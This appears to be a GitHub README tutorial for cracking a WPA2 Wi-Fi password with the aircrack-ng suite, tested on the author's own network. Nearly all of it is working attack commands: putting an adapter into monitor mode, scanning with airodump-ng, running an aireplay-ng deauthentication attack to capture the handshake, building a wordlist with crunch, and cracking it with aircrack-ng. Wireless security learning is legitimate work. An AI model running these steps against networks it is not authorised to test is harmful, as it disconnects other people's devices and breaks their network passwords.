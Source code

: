 # Run "ifconfig" to check if wireless adapter is properly connected to machine & to check adapter name. 
[+] In my case it's (wlan0).
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-12-38.png">

# Followed by "iwconfig" to check what mode your wireless adapeter is in
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-16-01.png">

# "ifconfig wlan0 down", "sudo network check kill" - to drop wlan0 conection and kill all network process connected to machine respectively.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-17-23.png">

# "iwconfig wlan0 mode monitor", "ifconfig wlan0 up" - turn on monitor mode on wireless adapter and bring up wlan0 connection.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-09.png">

# Check wlan0 status, should be in monitor mode now.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-20.png">

# "airodump-ng wlan0" - to monitor packets and wireless services around you.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-59.png">

# Displays both network and connected devices(STATION section), quit the process by hitting the "CTRL + C" on your keyboard.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-19-17.png ">

# "airodump-ng --bssid (enter bssid) --channel (enter CH) wlan0" - to monitor packets on a specific network.
[+] chose the network with the name H4CKER which is my personal network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2012-19-13.png">

# "airodump-ng --bssid (enter bssid) --channel(enter CH) --write (name file) wlan0" - capture packets in a file 
[+] Run a deauthentication attack with"aireplay-ng --deauth 10 -a (target BSSID) -c (target MAC) wlan0 " on another pane to capture network handshake.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-18.png">

# Waiting to capture handshake while device conects back to WPA2 network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-31.png ">

# Handshake should be captured once deauth attack is complete.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-39.png">

# Generate wordlist with crunch - "crunch 6 12 abc -o word.txt"
[+] generated a wordlist of a minimum of 6 and maximum of 12 characters.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-06-26.png">

# Run "aircrack-ng (captured_handshake_name) -w word.txt"
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-56-32.png ">
